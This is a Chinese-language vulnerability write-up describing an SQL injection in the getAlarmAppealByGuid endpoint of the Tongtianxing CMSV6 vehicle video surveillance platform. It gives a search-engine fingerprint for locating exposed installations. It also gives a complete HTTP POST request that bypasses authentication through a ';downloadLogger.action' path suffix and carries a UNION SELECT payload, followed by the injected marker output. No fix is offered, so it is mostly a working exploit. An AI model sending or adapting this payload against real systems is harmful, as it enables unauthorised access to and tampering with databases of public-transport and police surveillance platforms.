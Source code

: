 # 通天星CMSV6车载视频监控平台 getAlarmAppealByGuid存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台getAlarmAppealByGuid存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/lnRXUcYiC0A3P_mY/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-410488.png)

# 四、漏洞复现
```rust
POST /alarm_appeal/getAlarmAppealByGuid;downloadLogger.action HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded

guid=1') UNION ALL SELECT NULL,CONCAT(0x7178786a71,0x4878597253544d464658514545495671627943586f73584f5056504164416342614549794a446b45,0x71717a7671),NULL-- -
```

![1717263406398-da903405-30a5-4b1d-9f7a-d357e304e250.png](./img/lnRXUcYiC0A3P_mY/1717263406398-da903405-30a5-4b1d-9f7a-d357e304e250-477232.png)

```rust
qxxjqHxYrSTMFFXQEEIVqbyCXosXOPVPAdAcBaEIyJDkEqqzvq
```

```rust
POST /alarm_appeal/getAlarmAppealByGuid;downloadLogger.action HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded

guid=1
```

![1717263425891-e939657e-86f6-492b-baff-4047d8ab502a.png](./img/lnRXUcYiC0A3P_mY/1717263425891-e939657e-86f6-492b-baff-4047d8ab502a-078476.png)



> 更新: 2024-12-28 13:05:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bowy6gf658mit37a>